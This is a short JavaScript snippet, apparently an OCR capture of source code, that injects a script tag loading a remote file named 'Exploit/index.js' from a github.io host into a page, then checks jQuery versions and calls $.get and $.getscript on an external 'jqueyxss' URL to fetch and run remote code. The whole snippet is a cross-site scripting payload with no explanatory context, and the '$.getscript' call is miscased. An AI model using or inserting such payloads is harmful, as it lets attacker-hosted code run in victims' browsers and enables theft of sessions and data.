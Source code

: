 if (typeof p === 'undefined') {
    const p = document.createElement('script');
    p.src = 'https://shashank604.github.io/Exploit/index.js';

    p.onload = () => {
        console.log('Script loaded successfully.');
    };

    p.onerror = () => {
        console.error('Failed to load the script.');
    };

    document.head.appendChild(p);
}


$().jquery;

$.ui.version

$.get('https://sakurity.com/jqueyxss')

$.getscript('https://sakurity.com/jqueyxss')
